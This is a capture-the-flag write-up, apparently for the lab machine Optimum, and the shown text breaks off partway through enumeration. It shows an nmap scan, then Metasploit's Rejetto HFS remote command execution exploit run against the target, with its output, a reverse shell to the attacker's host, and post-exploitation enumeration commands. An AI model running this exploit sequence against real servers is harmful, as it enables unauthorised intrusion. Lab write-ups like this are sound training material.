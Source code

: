 ## Write up

I started with the nmap scan to see the open ports.

```
nmap -sV -sC -oA nmap 10.10.10.8
```

Generated 3 nmap output files and opened the nmap.nmap file.

This is the content of the nmap.nmap file

`# Nmap 7.50 scan initiated Mon Jul 10 21:13:26 2017 as: nmap -sV -sC -oA nmap 10.10.10.8`

`Nmap scan report for 10.10.10.8`

`Host is up (0.55s latency).`

`Not shown: 999 filtered ports`

`PORT   STATE SERVICE VERSION`

`80/tcp open  http    HttpFileServer httpd 2.3`

`|_http-server-header: HFS 2.3`

`|_http-title: HFS /`

`Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows`

`Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .`

`# Nmap done at Mon Jul 10 21:14:33 2017 -- 1 IP address (1 host up) scanned in 67.96 seconds`

The port 80 is open and it uses HttpFileServer httpd 2.3. I opened the msfconsole \(metasploit\) to search and see the available exploits for the current version of HttpFileServer \(HFS\). I used the search command as shown below.

```
msf > search hfs
```

And it shows the matching modules.

```
Matching Modules
================

   Name                                        Disclosure Date  Rank       Description
   ----                                        ---------------  ----       -----------
   exploit/multi/http/git_client_command_exec  2014-12-18       excellent  Malicious Git and Mercurial HTTP Server For CVE-2014-9390
   exploit/windows/http/rejetto_hfs_exec       2014-09-11       excellent  Rejetto HttpFileServer Remote Command Execution
```

Here, we can see already the available exploit for the HttpFileServer \(HFS\).

I used the `exploit/windows/http/rejetto_hfs_exec`as the exploit.

```
msf > use exploit/windows/http/rejetto_hfs_exec
```

Setting the RHOST to the IP address of the Optimum and running the exploit.

```
msf exploit(rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(rejetto_hfs_exec) > set RHOST 10.10.10.8
RHOST => 10.10.10.8
msf exploit(rejetto_hfs_exec) > 
msf exploit(rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.9:4444 
[*] Using URL: http://0.0.0.0:8080/IrcKe8v9
[*] Local IP: http://10.0.0.69:8080/IrcKe8v9
[*] Server started.
[*] Sending a malicious request to /
...
```

After running the exploit, I am able to access the shell with meterpreter.

**Enumeration and finding the user.txt**

Commands that I used to enumerate.

```
meterpreter> sysinfo #to see the information of the system

meterpreter> shell #to access the shell

wmic qfe get Caption,Description,HotFixID,InstalledOn #to see the security updates of the OS
```



